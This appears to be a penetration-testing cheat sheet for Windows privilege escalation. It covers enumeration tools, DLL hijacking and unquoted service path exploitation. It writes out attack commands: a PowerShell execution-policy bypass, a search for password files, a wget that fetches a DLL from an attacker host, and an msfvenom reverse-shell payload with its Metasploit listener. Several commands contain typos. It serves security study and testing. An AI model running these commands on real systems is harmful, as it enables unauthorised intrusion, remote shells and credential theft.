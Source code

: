 # Methodology

1. Enumerate the current user's privileges and resources it can access

2. If the antivirus software allows it, run an automated enumeration script such as winPEAS or PowerUp.ps1

3. If the initial enumeration and scripts do not uncover an obvious strategy, try a different approach


---

# Enumeration

## Tools

1. WinPEAS -> enumerate the target system to uncover privilege escalation paths. (Windows Defender detects and disables WinPEAS

```powershell
$ winpeas.exe > result.txt
```

2. PowerUp -> PowerShell script that searches common privilege esacaltion on the target system. **Need to bypass the execution policy restrictions.**

```powershell
$ powershell.exe -nop -exec bypass
```

```powershell
$ Import-Mode PowerUp.ps1
$ Invoke-AllChecks
```

3. Windows Exploit Suggester -> Some exploit scripts will require you to upload them to the target system and run them there.

```powershell
# Update db
$ windows-exploit-suggester.py –update
```

```powershell
# Usage
$ windows-exploit-suggester.py --database <yyyy-mm-dd>-mssb.xls --systeminfo result.txt
```

4. Metasploit -> Some module can list vulnerabilities

```bash
multi/recon/local_exploit_suggester
```

## User enumeration

```powershell
# List current user's privileges
$ whoami /priv

# List users
$ net users

# Details about user
$ net user <user>
$ net user Administrator

# User(s) logged in simultaneously
$ qwinsta
$ query session

# List locals groups
$ net localgroup

# Details about group
$ net localgroup <groupname>
$ net localgroup Adlinistrators
```

## System information

```powershell
# Get informationsss
$ systeminfo

# OS Version
$ systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

# Hostanme 
$ hostname
```

## Search files

```powershell
# Find files with this pattern : password and .txt extension
findstr /si password *.txt

# Good extensions are : .txt, .xml, .ini, .config, .xls
```

## Patch level

```powershell
# Get patch applied on the system
$ wmic qfe get Caption,Description,HotFixID,InstalledOn
```

## Network connections

```powershell
# List all listened ports
$ netstat -ano
```

## Scheduled tasks

```powershell
# List all scheduled tasks
$ schtasks /query /fo LIST /v
```

## Drivers and applications

```powershell
# List all installed drivers
$ driverquery

# Dump information about installed software
$ wmic product
$ wmic product get name,version,vendor

# BETTER WAY
$ wmic service list brief

# Only running
$ wmic service list brief | findstr  "Running"

# Get more information about service
$ sc qc <service>
$ sc qc RemoteMouseService
```

## Antivirus

```powershell
# Check Windows Defender status
$ sc query windefend
$ Get-MpComputerStatus
$ (Get-Service windefend).Status
$ Get-Service | where {$_.DisplayName -Like "*Defender*"} | Select Status.DisplayName

# Check services (find any antivirus in this list)
$ sc queryex type=service
```

---

# Exploitation

## DLL Hijacking

**Conditions :**

1. An application that uses one or more DLL files.
2. A way to manipulate these DLL files.

If SafeDllSafeMode is enabled, the search order is as follow :

1. The directory from which the application loaded
2. The system diretory. Use ```powershell GetSystemDirectory ``` function to get the path of this directory.
3. The 16-bit directory.
4. The Windows directory. Use ```powershell GetWindowsDirectory ``` function to get the path of this directory.
5. The current directory.
6. The directories listed in the PATH environment variable.

If SafeDllSearchMode is disabledn the search order is as follow :

1. The directory from which the application loaded
2. The current directory
3. The system diretory. Use ```powershell GetSystemDirectory ``` function to get the path of this directory.
4. The 16-bit directory.
5. The Windows directory. Use ```powershell GetWindowsDirectory ``` function to get the path of this directory.
6. The directories listed in the PATH environment variable.

If the current user permit to write to any folder in the search order, we can have a possible DLL hijacking vulnerability.

**Finding DLL Hijacking vulnerabilities**

Tool : Process Monitor (ProcMon)

**Generate DLL file**

```bash
# Install mingw compiler
$ apt install gcc-mingw-w64-x86-64

# Generate DLL file
$ x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll

# Download DLL file on the target
$ wget -O <file_name>.dll <attacker_ip>:<port>/<file_name>.dll
```

```powershell
# Stop and start dllsvc
$ sc stop dllsvc & sc start dllsvc
```

## Unquoted service path 

**Conditions :**

1. Being able to write to a folder on the path.
2. Being able to restart the service.

**Services enumeration**

```powershell
$ wmic service get name,displayname,pathname,startmode
```

**Check binary path**

```powershell
$ sc qc <service>
# Example
$ sc qc unquotedsvc
```

**Privilege check on the path**

```powershell
.\accesschk64.exe /accepteula -uwdq "<path>"
# Example
.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"
```

**Generate an executable file**

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[<attacker_ip> LPORT=<port> -f exe > <executable_name>.exe
```

**Setup Meterpreter listner**

```bash
$ use exploit/multi/handler
# Set options (LHOST,LPORT)
$ set payload windows/x64/shell_reverse_tcp
$ run
```

**Restart service**

```powershell
$ sc start <service>
# Example
$ sc start uquotedsvc
```

